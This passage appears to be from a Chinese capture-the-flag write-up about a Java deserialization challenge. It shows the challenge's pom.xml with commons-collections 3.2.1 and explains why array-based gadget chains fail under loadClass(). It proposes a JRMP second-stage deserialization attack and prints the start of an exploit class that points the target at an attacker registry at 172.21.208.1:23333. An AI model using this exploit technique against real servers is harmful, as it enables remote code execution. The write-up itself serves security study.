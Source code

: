 ```xml
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```

题目看完了，难点实际上就在于MyInputStream这个类，其使用了`classLoader.loadClass()`而非默认的`Class.forName()`去加载类，两者主要的不同点在于不能够加载数组，比如:
```java
Class.forName("[[B");	// class [[B
ClassLoader.getSystemClassLoader().loadClass("[[B");	// ClassNotFoundException
```

这样一来，我们之前的payload都无法使用了，不管是TemplatesImpl还是Transformer链，都涉及到数组(前者是bytes二维数组，后者是Transformer数组)。

那么这道题要如何做呢？实际上这里涉及到二次反序列化，一谈到二次反序列化，我们很容易想到JRMP/RMI那一套，也就是让服务端反序列化一个JRMPClient，向我们恶意的Registry发送请求，触发二次反序列化。

题目环境是jdk8u222，我们知道在jdk8u121之后java增加了JEP 290的防御机制，但是这是可以绕过的，这里就不再展开了，可以参考博客中的RMI文章。

最终构造的exp如下，参考了ysoserial的JRMPClient，由于要往序列化流里写入额外数据，所以不能直接用ysoserial构造:
```java
package com.yxxx.javasec.deserialize;  
  
  
import sun.rmi.server.UnicastRef;  
import sun.rmi.transport.LiveRef;  
import sun.rmi.transport.tcp.TCPEndpoint;  
  
import java.io.ByteArrayOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Proxy;  
import java.rmi.registry.Registry;  
import java.rmi.server.ObjID;  
import java.rmi.server.RemoteObjectInvocationHandler;  
import java.util.Random;  
  
public class Exp3 {  
 public static void main(String[] args) throws Exception {  
 ObjID id = new ObjID(new Random().nextInt()); // RMI registry  
 TCPEndpoint te = new TCPEndpoint("172.21.208.1", 23333);  
 UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));  
 RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);  
```